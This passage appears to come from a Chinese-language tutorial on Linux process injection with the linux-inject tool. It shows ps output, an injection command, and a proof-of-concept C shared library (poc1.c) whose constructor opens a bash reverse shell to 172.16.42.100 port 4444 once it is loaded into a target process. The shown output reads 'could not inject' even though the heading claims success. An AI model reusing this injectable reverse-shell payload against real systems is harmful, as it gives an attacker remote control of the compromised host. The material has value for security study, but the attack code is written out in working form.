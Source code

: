   

- 查看sample-target的进程

  ```bash
  ➜  linux-inject git:(master) ps -ef | grep sample-target | grep -v grep
  root      15771  15710  0 20:12 pts/3    00:00:00 ./sample-targe
  ```

  进程为15771

- 尝试注入进程

  ```bash
  ➜  linux-inject git:(master) ./inject -p 15771 ./sample-library.so
  targeting process with pid 15771
  could not inject "./sample-library.so"
  ```

  

- 进程注入成功

  ```bash
  ➜  linux-inject git:(master) ./sample-target
  sleeping...
  sleeping...
  sleeping...
  sleeping...
  sleeping...
  ......
  I just got loaded
  ```

  注入成功会有”I just got loaded“的提示



### 1.3 编写一个简单的poc

我们重写so文件，进行反弹shell。

poc1.c:

```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>


void shell()
{
	printf("I just got loaded\n");
    system("bash -c \"bash -i >& /dev/tcp/172.16.42.100/4444 0>&1\"");
   
}


__attribute__((constructor))
void loadMsg()
{
   shell();
}
```
